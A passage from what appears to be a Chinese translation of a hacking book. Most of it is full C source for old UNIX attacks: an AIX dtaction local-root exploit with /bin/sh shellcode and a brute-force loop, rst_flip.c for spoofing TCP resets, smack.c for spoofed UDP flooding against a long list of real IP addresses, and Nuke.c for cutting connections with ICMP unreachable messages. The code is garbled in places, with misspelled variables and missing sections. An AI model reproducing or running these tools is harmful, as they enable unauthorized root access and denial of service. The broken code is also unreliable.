sprintf (buffer, "%s", "EDITOR=emacs");
send_environ (buffer, param);

sprintf (buffer, "LOGNAME=%s", LOGIN);
send_environ (buffer, param);

sprintf (buffer, "MAIL=/usr/spool/mail/%s", LOGIN);
send_environ (buffer, param);

sprintf (buffer, "HOSTNAME=%s", getenv("HOSTNAME"));
send_environ (buffer, param);

sprintf (buffer, "LOCPATH=%s", getenv("LOCPATH"));
send_environ (buffer, param);

sprintf (buffer, "%s", "PS1=(exploited !) ");
send_environ (buffer, param);

sprintf (buffer, "USER=%s", LOGIN);
send_environ (buffer, param);

sprintf (buffer, "AUTHSTATE=%s", getenv("AUTHSTATE"));
send_environ (buffer, param);

sprintf (buffer, "DISPLAY=%s", getenv("DISPLAY"));
send_environ (buffer, param);

sprintf (buffer, "SHELL=%s", getenv("SHELL"));
send_environ (buffer, param);

sprintf (buffer, "%s", "ODMDIR=/etc/objrepos");
send_environ (buffer, param);

sprintf (buffer, "HOME=%s", HOME);
send_environ (buffer, param);

sprintf (buffer, "%s", "TERM=vt220");
send_environ (buffer, param);

sprintf (buffer, "%s", "MAILMSG=[YOU HAVE NEW MAIL]");
send_environ (buffer, param);
        sprintf (buffer, "PWD=%s", PWD);
send_environ (buffer, param);

sprintf (buffer, "%s", "T2=NFT-1");
send_environ (buffer, param);

sprintf (buffer, "%s", "A__z=! LOGNAME");
```

498

```c
send_environ(buffer,param);

/* 使用 -q 参数启动 info_gr，否则进程将在本地运行
   而不是从守护进程运行 ...  */

sprintf(buffer,"%%%c%%%c%%%c",1,45,113,0);
fwrite(buffer,1,4,param);

fclose(param);

param=fopen("/tmp/tempo.fun","rb");
fseek(param,0,SEEK_END);
taille_param=ftell(param);
fseek(param,0,SEEK_SET);
fread(paramz,1,taille_param,param);
fclose(param);

unlink("/tmp/tempo.fun");

/* 感谢守护进程先生 :) */

write(chaussette,paramz,taille_param);

printf("\n%s %s\n",OK,getenv("HOSTNAME"));

close(chaussette);
}
```

本章中的程序可以在随本书附赠的光盘中找到。

## 远程 root

*摘要：* AIX *dtaction* 和 *home 环境处理* 存在远程 root shell 漏洞。

*黑客状态：* 未授权的 root 访问。

*易受攻击性：* AIX 4.2。

*攻击方式：* 使用 UNIX 专家 Georgi Guninski 编写的 *aixdttaction.c*，AIX 4.2 中的 */usr/dt/bin/dtaction* 进程会处理“Home”环境，从而生成一个 root shell。

## aixdtaction.c

```c
/* 使用 IBM C 编译器。
   编译方式：cc -g aixdtaction.c
   DISPLAY 应已设置。
   -----------------
   Georgi Guninski
   guninski@hotmail.com
   http://www.geocities.com/ResearchTriangle/1711
   */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *prog="/usr/dt/bin/dtaction";
char *prog2="dtaction";
extern int execv();

char *createvar(char *name,char *value)
{
char *c;
int l;
l=strlen(name)+strlen(value)+4;
if (! (c=malloc(l))) {perror("error allocating");exit(2);} ;
strcpy(c,name);
strcat(c,"=");
strcat(c,value);
return c;
}

/*程序本体*/
main(int argc,char **argv,char **env)
{
/*代码部分*/
unsigned int code[]={
0x7c0802a6 , 0x9421fbb0 , 0x90010458 , 0x3c60f019 ,
0x60632c48 , 0x90610440 , 0x3c60d002 , 0x60634c0c ,
0x90610444 , 0x3c602f62 , 0x6063696e , 0x90610438 ,
0x3c602f73 , 0x60636801 , 0x3863ffff , 0x9061043c ,
0x30610438 , 0x7c842278 , 0x80410440 , 0x80010444 ,
0x7c0903a6 , 0x4e800420 , 0x0}
};
/* 反汇编
7c0802a6      mfspr   r0,LR
9421fbb0      st      SP,-1104(SP) --获取栈
90010458      st      r0,1112(SP)
3c60f019      cau     r3,r0,0xf019
60632c48      lis     r3,r3,11336
90610440      st      r3,1088(SP)
3c60d002      cau     r3,r0,0xd002

60634c0c      lis     r3,r3,19468
90610444      st      r3,1092(SP)
3c602f62      cau     r3,r0,0x2f62 --'/bin/sh\x01'
6063696e      lis     r3,r3,26990
90610438      st      r3,1080(SP)
3c602f73      cau     r3,r0,0x2f73
60636801      lis     r3,r3,26625
3863ffff      addi    r3,r3,-1
9061043c      st      r3,1084(SP) --以 0 终止
30610438      lis     r3,SP,1080
7c842278      xor     r4,r4,r4      --argv=NULL
80410440      lwz     RTOC,1088(SP)
80010444      lwz     r0,1092(SP)  --跳转
7c0903a6      mtspr   CTR,r0
4e800420        bctr      --跳转
*/
#define MAXBUF 600
unsigned int buf[MAXBUF];
unsigned int frame[MAXBUF];
unsigned int i,nop,mn=100;
int max=280;
unsigned int toc;
unsigned int eco;
unsigned int *pt;
char *t;
unsigned int reta; /* 返回地址 */
int corr=3400;
char *args[4];
char *newenv[8];

if (argc>1)
      corr = atoi(argv[1]);

pt=(unsigned *) &execv;
toc=*(pt+1);
eco=*pt;

if (  (mn+strlen( (char*)code) /4)>max) || (max>MAXBUF )
{
      perror("Bad parameters");
      exit(1);
}

#define OO 7
*((unsigned short *)code + OO + 2)=(unsigned short) (toc & 0x0000ffff);
*((unsigned short *)code + OO)=(unsigned short) ((toc >> 16) & 0x0000ffff);

*((unsigned short *)code + OO + 8 )=(unsigned short) (eco & 0x0000ffff);
*((unsigned short *)code + OO + 6 )=(unsigned short) ((eco >> 16) & 0x0000ffff);

reta=(unsigned) &buf[0]+corr;

for(nop=0; nop<mn; nop++)
   buf[nop]=0x4fffffb82;
strcpv( (char*)&buf[nop], (char*)&code);
i=nop+strlen( (char*) &code)/4-1;

if( !(reta & 0xff) || !(reta && 0xfff0) || !(reta & 0xfff0000)
         || !(reta && 0xfff00000))
{
  perror("Return address has zero");exit(5);
}
    while(i++<max)
      buff[i]=reta;
    buff[i]=0;
    for(i=0;i<max-1;i++)
      frame[i]=reta;
    frame[i]=0;

    /* 4 个变量，因为正确的那个应该对齐到 4 字节边界
    ry */
    newenv[0]=createvar("EGGSHEL",(char*)&buff[0]);
    newenv[1]=createvar("EGGSHE2",(char*)&buff[0]);
    newenv[2]=createvar("EGGSHE3",(char*)&buff[0]);
    newenv[3]=createvar("EGGSHE4",(char*)&buff[0]);
    newenv[4]=createvar("DISPLAY",getenv("DISPLAY"));
    newenv[5]=createvar("HOME",(char*)&frame[0]);
    newenv[6]=NULL;
    args[0]=prog2;
    puts("Start... ");/*开始*/
    execve(prog,args,newenv);
    perror("Error executing execve \n");
    /*          Georgi Guninski guninski@hotmail.com
            http://www.geocities.com/ResearchTriangle/1711*/
}
```

```bash
#!/bin/ksh
L=200
O=40
while [ $L -lt 12000 ]
do
    echo $L
    L=`expr $L + 96`
    ./a.out $L
done
```

## **BSD**

BSD 操作系统，通常被称为 UNIX 的 Berkeley 版本，存在多种变体，并广泛用于互联网服务和防火墙。BSD 通常运行在 Intel 和 Sun 架构上，可以提供高性能的互联网操作系统，用于 DNS、Web 托管、电子邮件、安全、VPN 访问等诸多领域。BSD 产品系列基于由 Berkeley Software Design, Inc. 开发的核心源代码，包括 BSDi、FreeBSD、NetBSD 和 OpenBSD 等版本。BSDi (www.bsd.com) 以其互联网基础设施级系统著称，其软件和解决方案背后有着一流的服务和支持。

## **责任范围/风险**

### 拒绝服务攻击

**摘要：** BSD 易受 DoS 攻击；通过发送定制数据包来断开活动的 TCP 连接。

**黑客状态：** 严重拥塞。

**易受攻击性：** BSD 的各种变体。

**攻击方式：** 使用方法相当简单：

```
`rst_flip <A> <B> <A port low> <A port hi> <B port low> <B port hi>`
其中
A 和 B 是目标当前的会话。
```

## rst_flip.c

```c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <linux/socket.h>
#include <linux/ip.h>
#include <linux/tcp.h>

#define TCPHDR    sizeof(struct tcphdr)
#define IPHDR     sizeof(struct iphdr)
#define PACKETSIZE TCPHDR + IPHDR
#define SLEEPTIME 30000             // 取决于你能多快地“呕吐”（发送数据）
#define LO_RST    1                 // 发出的数据包
#define HI_RST    2147483647        // 别问我关于这个 :)
#define ERROR_FAILURE -1

#define ERROR_SUCCESS 0

void resolve_address(struct sockaddr *, char *, u_short);
unsigned short in_cksum(unsigned short *,int );
int send_rst(char *, char *, u_short ,u_short , u_long, u_long,u_long);

int main(int argc, char *argv[])
{
   int res,i,j;
   int spoof_port,target_port;

   if (argc < 7 || argc> 8 )
   {
      printf ("usage: <source> <destination> <source_port_hi>
<source_port_lo> <dest_port_hi> <dest_port_lo>\n[
http://www.rootshell.com/ \n");
      exit(ERROR_FAILURE);
   }

   for (i = atoi(argv[3]);i <= atoi(argv[4]); i++)
   {
```

503


```c
spoof_port = i;

for (j = atoi(argv[5]);j <= atoi(argv[6]) ;j++)
{
    target_port = j;
    printf("%s : %d \t", argv[1],spoof_port);
    printf("--> %s :%d\n",argv[2], target_port);
    res=send_rst(argv[1],argv[2],spoof_port,target_port, HI_RST,
HI_RST, 2);
    usleep(SLEEPTIME);
    res=send_rst(argv[1],argv[2],spoof_port,target_port,
LO_RST,LO_RST, 2);
    usleep(SLEEPTIME);
}
}
return ERROR_SUCCESS;
}

// here we put it together
int send_rst(char *fromhost, char *tohost, u_short fromport,u_short toport, u_long ack_sq, u_long s_seq, u_long spoof_id)
{
int i_result;
int raw_sock;
static struct sockaddr_in local_sin, remote_sin;
struct tpack{
    struct iphdr ip;
    struct tcphdr tcp;
}tpack;

struct pseudo_header{                 // pseudo header 4 the checksum

unsigned source_address;
unsigned dest_address;
unsigned char placeholder;
unsigned char protocol;
unsigned short tcp_length;
struct tcphdr tcp;
}pheader;

// resolve_address((struct sockaddr *)&local_sin, fromhost, fromport);
// resolve_address((struct sockaddr *)&remote_sin, tohost, toport);

// TCP header
tpack.tcp.source=htons(fromport);               // 16-bit Source port number
tpack.tcp.dest=htons(toport);               // 16-bit Destination port
tpack.tcp.seq=ntohl(s_seq);               // 32-bit Sequence Number */
tpack.tcp.ack_seq=ntohl(ack_sq); // 32-bit Acknowledgement Number */
tpact.tcp.doff=5; // Data offset */
tpact.tcp.res1=0; // reserved */
tpact.tcp.res2=0; // reserved */
tpact.tcp.urg=0; // Urgent offset valid
flag */
tpact.tcp.ack=1; // Acknowledgement field valid flag */
tpact.tcp.psh=0; // Push flag */
tpact.tcp.rst=1; // Reset flag */
tpact.tcp.syn=0; // Synchronize sequence numbers flag */
tpact.tcp.fin=0; // Finish sending flag
*/
tpact.tcp.window=0; // 16-bit Window size */
tpact.tcp.check=0; // 16-bit checksum (to be filled in below) */
tpact.tcp.urg_ptr=0; // 16-bit urgent offset */

// IP header
tpact.ip.version=4; // 4-bit Version */
tpact.ip.ihl=5; // 4-bit Header Length */
tpact.ip.tos=0; // 8-bit Type of service */
tpact.ip.tot_len=htons(IPHDR+TCPHDR); // 16-bit Total length */
tpact.ip.id=htons(spoof_id); // 16-bit ID field */
tpact.ip.frag_off=0; // 13-bit Fragment offset */
tpact.ip.ttl=64; // 8-bit Time To Live */
tpact.ip.protocol=IPPROTO_TCP; // 8-bit Protocol */
tpact.ip.check=0; // 16-bit Header checksum (filled in below) */
tpact.ip.saddr=local_sin.sin_addr.s_addr; // 32-bit Source Address */
tpact.ip.daddr=remote_sin.sin_addr.s_addr; // 32-bit Destination Address */

// IP header checksum
tpact.ip.check=in_cksum((unsigned short *)&tpact.ip, IPHDR);

sum += (sum >> 16); // add carry
answer = ~sum; // ones-complement, then truncate to 16 bits
return(answer);
}

// Resolve the address and populate the sin structs
void resolve_address(struct sockaddr * addr, char *hostname, u_short port)
{
    struct sockaddr_in *address;
    struct hostent     *host;

    address = (struct sockaddr_in *)addr;
    (void) bzero( (char *)address, sizeof(struct sockaddr_in) );

    address->sin_family = AF_INET;
    address->sin_port = htons(port);

    address->sin_addr.s_addr = inet_addr(hostname);
    if ((int)address->sin_addr.s_addr == -1) {
        host = gethostbyname(hostname);
        if (host) {
            bcopy( host->h_addr, (char *)&address->
                sin_addr,host->h_length);
        }
        else {
            puts("Couldn't resolve the address!!!");
            exit(ERROR_FAILURE);
        }
    }
}
```

## **BSD 恐慌攻击**

**概要：**一种 BSD 拒绝服务攻击，*smack.c* 会从自定义的随机 IP 地址发送随机 ICMP 不可达数据包。

**漏洞：**所有。

**破坏：**这种由 Iron Lungs 修改的拒绝服务攻击会导致平台冻结，因为受害者会从可定制的“\*Start”和“End”自定义部分之间的可定制地址接收到成千上万的数据包。

**smack.c**

```c
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/socket.h>

#include <netinet/in.h>
#include <netinet/in_systm.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <sys/uio.h>
#include <unistd.h>
char conn_pack0[] = { -128,0,0,12,1,81,85,65,75,69,0,3 };
char conn_pack1[] = { -1,-1,-1,-
    1,99,111,110,110,101,99,116,32,34,92,110,111,
97,105,109,92,48,92,109,115,103,92,49,92,114,97,116,
101,92,50,53,48,48,92,98,111,116,116,111,109,99,111,
108,111,114,92,49,98,92,116,111,112,99,111,108,111,114,
92,110,97,109,101,92,83,110,111,111,112,112,34
,10
};
#define PS0 20+8+12
#define PS1 20+8+strlen(conn_pack1)
char *servers[] = {
/* Start customizing here
"129.15.3.38:26000:0",
"207.123.126.4:26000:0",
"129.15.3.38:26001:0",
"129.15.3.38:26002:0",
"192.107.41.7:26000:0",
"157.182.246.58:26000:0",
"128.52.42.22:26000:0",
"209.51.213.12:26000:0",
"209.112.14.200:26000:0",
"144.92.218.112:26000:0",
"200.239.253.14:26000:0",
"134.147.141.98:26000:0",
"137.48.127.127:26000:0",
"209.51.192.228:26000:0",
"159.134.244.134:26000:0",
"207.229.129.193:26000:0",
"194.125.2.219:26001:0",
"206.98.138.162:26000:0",
"134.193.111.241:26000:0",
"207.40.196.13:26000:0",
"209.26.6.121:26000:0",
"208.194.67.16:26000:0",
"205.163.58.20:26000:0",
"199.247.156.6:26000:0",
"12.72.1.37:26000:0",
"216.65.157.101:26000:0",
"206.103.0.200:26000:0",
"207.198.211.22:26000:0",
"148.176.238.89:26000:0",
"208.255.165.53:26000:0",
"208.240.197.32:26000:0",
"209.192.31.148:26000:0",
"159.134.244.132:26000:0",
"195.96.122.8:26000:0",
"209.30.67.88:26000:0",
"209.36.105.50:26000:0",
"62.136.15.45:26000:0",
"208.18.129.2:26000:0",
"208.0.188.6:26000:0",
"208.137.128.24:26000:0",
"198.106.23.1:26000:0",
"209.122.33.45:26000:0",
"208.23.24.79:26000:0",
"200.34.211.10:26000:0",
"208.45.42.111:26000:0",
"203.23.47.43:26000:0",
"207.239.192.51:26000:0",
"165.166.140.122:26000:0",
"207.19.125.13:26000:0",
"144.92.229.122:26000:0",
"199.202.71.203:26000:0",
"200.255.244.2:26000:0",
"207.30.184.9:26000:0",
"129.186.121.53:26000:0",
"204.210.15.71:26000:0",
"198.101.39.41:26000:0",
"203.45.23.123:26000:0",
"205.23.45.223:26000:0",
"34.224.14.118:26000:0",
"200.24.34.116:26000:0",
"133.45.342.124:26000:0",
"192.52.220.101:26000:0",
"194.126.80.142:26000:0",
"206.171.181.1:26000:0",
"208.4.5.9:26000:0",
"206.246.194.16:26000:0",
"205.139.62.15:26000:0",
"204.254.98.15:26000:0",
"207.206.116.41:26000:0",
"208.130.10.26:26000:0",
"207.126.70.69:26000:0",
"38.241.229.103:26000:0",
"204.170.191.6:26000:0",
"144.92.243.243:26000:0",
"144.92.111.117:26000:0",
"194.229.103.195:26000:0",
"208.134.73.42:26000:0",
"207.64.79.1:26000:0",
"171.64.65.70:26004:0",
"207.13.110.4:26000:0",
"204.253.208.245:26000:0",
"165.166.144.45:26000:0",
"128.252.22.47:26000:0",
"204.210.15.71:26001:0",
"193.88.50.50:26000:0",
"209.155.24.25:26000:0",
"204.49.131.19:26000:0",
"199.67.51.102:26000:0",
"207.114.144.200:26000:0",
"165.166.140.140:26000:0",
"38.233.80.136:26000:0",
"204.216.57.249:26000:0",
"199.72.175.4:26000:0",
"204.91.237.250:26000:0",
"206.191.0.209:26000:0",
"194.109.6.220:26000:0",
"207.67.188.25:26000:0",
"160.45.32.176:26000:0",
"206.246.194.15:26000:0",
"207.65.182.12:26000:0",
"204.213.176.8:26000:0",
"207.99.85.67:26000:0",
"209.172.129.66:26000:0",
"132.230.63.23:26000:0",
"206.149.144.14:26000:0",
"147.188.209.113:26000:0",
"204.141.86.42:26000:0",
"207.8.164.27:26000:0",
"204.254.98.11:26000:0",
"204.216.126.251:26000:0",
"207.206.65.5:26000:0",
"209.12.170.11:26000:0",
"131.111.226.98:26000:0",
"194.65.5.103:26000:0",
"204.202.54.95:26000:0",
"204.97.179.4:26000:0",
"24.0.147.54:26000:0",
"207.170.48.24:26000:0",
"199.217.218.8:26000:0",
"207.166.192.85:26000:0",
"206.154.148.145:26000:0",
"206.248.16.16:26000:0",
"200.241.188.3:26000:0",
"204.177.71.10:26000:0",
"140.233.207.207:26000:0",
"207.218.51.13:26000:0",
"194.109.6.217:26000:0",
"207.236.41.30:26000:0",
"195.162.196.42:26000:0",
"209.49.51.98:26020:0",
"198.106.166.188:26000:0",
"207.239.212.113:26000:0",
"165.91.3.91:26000:0",
"128.95.25.184:26666:0",
"128.2.237.78:26001:0",
"128.2.237.78:26003:0",
"207.254.73.2:26000:0",
"208.225.207.3:26666:0",
"171.64.65.70:26666:0",
"208.225.207.3:26001:0",
"128.2.237.78:26000:0",
"129.21.113.71:26000:0",
"195.74.96.45:26000:0",
"206.129.112.27:26000:0",
"199.67.51.101:26000:0"
};
```


```text
"38.156.101.2:26000:0", "204.177.39.44:26000:0", "207.173.16.53:26000:0", "207.175.30.130:26123:0", "128.52.38.15:26000:0", "204.49.131.19:26666:0", "129.21.114.129:26666:0", "128.2.237.78:26002:0", "18.238.0.24:26001:0", "140.247.155.208:26000:0", "208.137.139.8:26000:0", "141.219.81.85:26000:0", "208.203.244.13:26000:0", "208.137.128.24:26020:0", "140.180.143.197:26666:0", "205.189.151.3:26000:0", "199.247.126.23:26000:0", "18.238.0.24:26002:0", "206.98.138.166:26000:0", "128.2.74.204:26000:0", "198.87.96.254:26000:0", "204.209.212.5:26000:0", "207.171.0.68:26002:0", "159.134.244.133:26000:0", "195.170.128.5:26000:0", "198.164.230.15:26000:0", "130.236.249.227:26000:0", "193.88.50.50:26001:0", "143.44.100.20:26000:0", "129.15.3.39:26000:0", "205.219.23.3:26000:0", "205.177.27.190:26000:0", "207.172.7.66:26000:0",
"209.144.56.16:26000:0", "128.164.141.5:26000:0", "129.2.237.36:26000:0", "206.98.138.165:26000:0", "194.100.105.71:26000:0", "194.158.161.28:26000:0", "203.87.2.13:26000:0", "141.219.83.69:26000:0", "198.83.6.70:26000:0", "35.8.144.96:26000:0", "206.196.57.130:26000:0", "206.31.102.16:26000:0", "207.23.43.3:26000:0", "207.18.86.50:26000:0", "207.87.203.20:26000:0", "198.161.102.213:26000:0", "24.1.226.74:26000:0", "207.207.32.130:26000:0", "165.166.140.160:26000:0", "204.248.210.20:26000:0",

"207.87.203.28:26000:0",
"165.166.140.111:26000:0",
"24.3.132.9:26000:0",
"205.217.206.189:26000:0",
"207.99.85.69:26000:0",
"192.124.43.75:26000:0",
"199.72.175.156:26000:0",
"209.98.3.217:26000:0",
"206.154.138.8:26000:0",
"205.199.137.12:26000:0",
"204.177.184.31:26000:0",
"192.124.43.73:26000:0",
"171.64.65.70:26000:0",
"165.91.21.113:26000:0",
"198.17.249.14:26000:0",
"156.46.147.17:26000:0",
"207.13.5.18:26000:0",
"208.212.201.9:26000:0",
"207.96.243.5:26000:0",
"206.196.153.201:26000:0",
"204.171.58.6:26000:0",
"140.180.143.197:26000:0",
"207.3.64.52:26000:0",
"207.65.218.15:26000:0",
"194.42.225.247:26000:0",
"205.228.248.27:26000:0",
"204.216.126.250:26000:0",
"128.230.33.90:26000:0",
"128.163.161.105:26000:0",
"208.0.122.12:26000:0"

"206.53.116.243:26000:0",
"199.76.206.54:26000:0",
"194.239.134.18:26000:0",
"208.153.58.17:26000:0",
"206.147.58.45:26000:0",
"204.220.36.31:26000:0",
"207.239.212.107:26000:0",
"206.230.18.20:26000:0",
"195.18.128.10:26000:0",
"151.198.193.6:26000:0",
"208.0.122.11:26000:0",
"206.149.80.99:26000:0",
"207.239.212.244:26000:0",
"129.128.54.168:26000:0",
"194.229.154.41:26000:0",
"207.51.86.22:26000:0",
"207.201.91.8:26000:0",
"205.216.83.5:26000:0",
"208.201.224.211:26000:0",
"194.144.237.50:26000:0",
"147.83.61.32:26000:0",
"136.201.40.50:26000:0",
"132.235.197.72:26000:0"

"195.173.25.34:26000:0",
"194.143.8.153:26000:0",
"194.109.6.218:26000:0",
"18.238.0.24:26000:0",
"129.21.112.194:26000:0",
"128.253.185.87:26000:0",
"206.183.143.4:26000:0",
"130.234.16.21:26000:0",
"148.202.1.5:26000:0",
"167.114.26.50:26000:0",
"169.197.1.154:26000:0",
"207.0.164.8:26000:0",
"207.243.123.2:26000:0",
"207.106.42.14:26000:0",
"198.161.102.18:26000:0",
"202.218.50.24:26000:0",
"205.139.35.22:26000:0",
"193.74.114.41:26000:0",
"199.217.218.8:26000:0",
"129.15.3.37:26000:0",
"130.240.195.72:26000:0",
"205.164.220.20:26000:0",
"209.90.128.16:26000:0",
"200.241.222.88:26000:0",
"194.213.72.22:26000:0",
"206.112.1.31:26000:0",
"132.230.153.50:26000:0",

"206.251.130.20:26000:0",
"195.238.2.30:26000:0",
"193.164.183.3:26000:0",
"150.156.210.232:26000:0",
"193.13.231.151:26000:0",
"200.18.178.7:26000:0",
"206.20.111.7:26000:0",
"192.89.182.26:26000:0",
"207.53.96.12:26000:0",
"194.64.176.5:26000:0",
"203.19.214.28:26000:0",
"130.241.142.10:26000:0",
"207.48.50.10:26000:0",
"129.13.209.22:26000:0",
"194.243.65.2:26000:0",
"194.19.128.13:26000:0",
"202.27.184.4:26000:0",
"194.204.5.25:26000:0",
"200.241.93.2:26000:0",
"194.125.148.2:26000:0",
"130.237.233.111:26000:0",
"139.174.248.165:26000:0",
"207.78.244.40:26000:0",
"195.74.0.69:26000:0",
"203.55.240.1:26000:0",
"203.61.156.162:26000:0",
"203.61.156.164:26000:0",
"195.90.193.138:26000:0",
"195.94.179.5:26000:0",
"203.23.237.110:26000:0",
"200.18.178.14:26000:0",
"200.248.241.1:26000:0",
"203.17.103.34:26000:0",
"131.151.52.105:26000:0",
"200.250.234.39:26000:0",
"203.29.160.21:26000:0",
"206.41.136.94:26000:0",
"202.49.244.17:26000:0",
"196.25.1.132:26000:0",
"206.230.102.9:26000:0",
"206.25.117.125:26000:0",
"200.246.5.28:26000:0",
"200.255.96.24:26000:0",
"195.94.179.25:26000:0",
"195.224.47.44:26000:0",
"200.248.241.2:26000:0",
"203.15.24.46:26000:0",
"199.217.218.7:26000:0",
"200.246.248.9:26000:0",
"200.246.227.44:26000:0",
"202.188.101.246:26000:0",
"207.212.176.26:26000:0",
"200.255.218.41:26000:0",
"200.246.0.248:26000:0",
"209.29.65.3:26000:0",
"203.32.8.197:26000:0",
"200.248.149.31:26000:0",
"200.246.52.4:26000:0",
"203.17.23.13:26000:0",
"206.196.57.130:26000:0",
"130.63.74.16:26000:0",
"203.16.135.34:26000:0",
"195.66.200.101:26000:0",
"199.217.218.7:26000:0",
"203.30.239.5:26000:0",
"128.206.92.47:26000:0",
"203.17.23.9:26000:0",
"205.139.59.121:26000:0",
"136.159.102.88:26000:0",
"207.152.95.9:26000:0",
"205.197.242.62:26000:0",
"204.119.24.237:26000:0",
"200.246.163.6:26000:0",
"206.96.251.44:26000:0",
"203.61.156.165:26000:0",
"207.0.129.183:26000:0",
"194.117.157.74:26000:0",
"206.83.174.10:26000:0",
"204.171.44.26:26000:0",

"204.216.27.8:26000:0",
"148.217.2.200:26000:0",
"193.13.231.149:26000:0",
"204.157.39.7:26000:0",
"208.194.67.16:26012:0",
"137.123.210.80:26000:0",
"149.106.37.197:26000:0",
"207.207.248.20:26000:0",
"143.195.150.40:26000:0",
"204.90.102.49:26000:0",
"209.48.89.1:26000:0",
"130.126.195.94:26000:0",
"134.193.111.241:26500:0",
"205.218.60.98:26001:0",
"205.218.60.98:26000:0",
"165.91.20.158:26000:0",
"206.248.16.16:26001:0",
"206.248.16.16:26002:0",
"149.156.159.100:26000:0",
"163.1.138.204:26000:0",
"204.177.71.250:26000:0",
"207.25.220.40:26000:0",
"206.25.206.10:26000:0",
"204.253.208.225:26000:0",
"203.59.24.229:26000:0",
"200.255.216.11:26000:0",
"128.143.244.38:26000:0",
"128.113.161.123:26000:0",
"128.138.149.62:26000:0",
"128.175.46.96:26000:0",
"204.210.15.62:26000:0",
"204.210.15.62:26001:0",
"206.83.174.9:26000:0"
```

```c
End customization /*
NULL
};
int i, s, fl, ret;
unsigned int sp, dp;
struct in_addr src, dst;
struct sockaddr_in addr;
char pack[1024];
struct ip *iph;
struct udphdr *udph;
int read_data(void);
int parse_in(char*);
int addserv(char*, unsigned int, char*);
void main(int argc, char *argv[])
{
iph = (struct ip *)pack;
udph = (struct udphdr*)(iph + 1);
if (argc < 2) {
printf("Usage: ./smack <target to fuck>\n", argv[0]);
exit(-1);
}
printf("Slinging Packets... \n");
src.s_addr = inet_addr(argv[1]);
if (src.s_addr == -1) {
    printf("Invalid source IP: %s\n", argv[1]);
    exit(-1);
}
s = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
if (s == -1) {
    perror("socket");
    exit(-1);
}

fl = 1;
ret = setsockopt(s, IPPROTO_IP, IP_HDRINCL, &fl, sizeof(int));
if (ret == -1) {
    perror("setsockopt");
    exit(-1);
}

bzero((char *)&addr, sizeof(addr));
addr.sin_family = AF_INET;
read_data();
printf("UnFed.\n");
}
int parse_in(char *in)
{
    int i, n, c, m, ret;
    char ip[16], tmp[6], mode, tmp2;
    unsigned int port;
    bzero(ip, 16); bzero(tmp, 6); mode = 0; port = 0; n = 0; c = 0; m = 0;
    tmp2 = 0;
    for (i = 0; i < strlen(in); i++) {
        if (in[i] != ' ') {
            if (in[i] != ':') {
                if (m == 0) {
                    ip[c] = in[i];
                    c++;
                }
                if (m == 1) {
                    tmp[c] = in[i];
                    c++;
                }
                if (m == 2) {
                    tmp2 = in[i];
                    break;
                }
            } else {
                m++; c = 0;
            }
        }
    }
    port = (unsigned int)atoi(tmp);
    mode = (tmp2 - 48);
    addserv(ip
```

```c
#else
  udph->dest    = htons(dp);
  if (mode == 0) {
    udph->len    = htons(sizeof *udph + 12);
    udph->source = htons(rand());
  }
  else {
    udph->len    = htons(sizeof *udph + strlen(conn_packl));
    udph->source = htons(27001);
  }
  #endif
  if (mode == 0) {
    memcpy(udph + 1, conn_pack0, 12);

    ret = sendto(s, pack, PS0, 0, (struct sockaddr *)&addr,
         sizeof(addr));
  }
  else {
    memcpy(udph + 1, conn_packl, strlen(conn_packl));
    ret = sendto(s, pack, PS1, 0, (struct sockaddr *)&addr,
         sizeof(addr));
  }
  if (ret == -1) {
    perror("sendto");
    exit(-1);
  }
```

## HP/UX

对于许多企业级 UNIX 基础设施，惠普（Hewlett-Packard）的 HP-UX 操作系统（www.unixsolutions.hp.com）是运行基于互联网的受业务关键影响的应用程序的绝佳基础。事实上，HP/UX 是前三个数据库套件——Oracle、Informix 和 Sybase——的主流平台。自 11/i 版本发布以来，HP-UX 具备 11 项具有竞争力的特性：

- **64 位处理能力。** 可运行更大的应用程序，并更快地处理大型数据集。
- **行业领先的性能。** 通过 V-Class 和 N-Class 服务器实现。
- **优越的应用组合。** 以具有成本效益的方式交付领先的打包应用软件。
- **轻松升级。** 允许未经修改地使用 9.x 或 10.x 应用程序（也可并排运行 32 位和 64 位）。
- **广泛支持。** 与整个 HP 9000 Enterprise 服务器系列兼容。
- **优越的可扩展性。** 简化了在同一系统内从 1 路到 128 路计算的过渡。
- **增强的弹性。** 最大化正常运行时间。
- **顶级安全性。** 保护从通信到商业交易的应用程序。
- **为电子服务做好准备。** 支持 HP 的互联网电子商务战略。
- **为 IA-64 做好准备。** 二进制兼容性平滑过渡到下一代 IA-64 架构。
- **充满希望的未来。** 由 HP 的资源和专业知识支持。

## 责任

拒绝服务攻击


**摘要：** 一种可能终止 IP 连接的拒绝服务（DoS）攻击。

**攻击状态：** 严重拥塞。

**漏洞：** 适用于所有版本。

**入侵：** 由著名超级黑客 Satanic Mechanic 撰写的 *Nuke.c* 是一种拒绝服务攻击，它利用 ICMP 不可达消息几乎可以切断任何 IP 连接。

# Nuke.c

```c
#include <netdb.h>
#include <sys/time.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/in_systm.h>
#include <netinet/ip.h>
#include <netinet/ip_icmp.h>
#include <netinet/tcp.h>
#include <signal.h>
#include <errno.h>
#include <string.h>
#include <stdio.h>

#define DEFAULT_UNREACH ICMP_UNREACH_PORT

char *icmp_unreach_type[] = {
    "net",
    "host",
    "protocol",
    "port",
    "frag",
    "source",
    "destnet",
    "desthost",
    "isolated",
    "authnet",
    "authhost",
    "netsvc",
    "hostsvc"
};

#define MAX_ICMP_UNREACH (sizeof(icmp_unreach_type)/sizeof(char *))

int resolve_unreach_type(arg)
    char *arg;
{
    int i;
    
    for (i=0; i < MAX_ICMP_UNREACH; i++) {
        if (!strcmp(arg,icmp_unreach_type[i])) return i;
    }
return -1;
}

int resolve_host (host,sa)
char *host;
struct sockaddr_in *sa;
{
struct hostent *ent ;

bzero(sa,sizeof(struct sockaddr));
sa->sin_family = AF_INET;
if (inet_addr(host) == -1) {
ent = gethostbyname(host);
if (ent != NULL) {
sa->sin_family = ent->h_addrtype;
bcopy(ent->h_addr, (caddr_t)&sa->sin_addr,ent->h_length);
return(0);}
else {
fprintf(stderr,"error: unknown host %s\n",host);
return(-1);}
}
return(0);
}

in_cksum(addr, len) /* from ping.c */
u_short *addr;
int len;
{
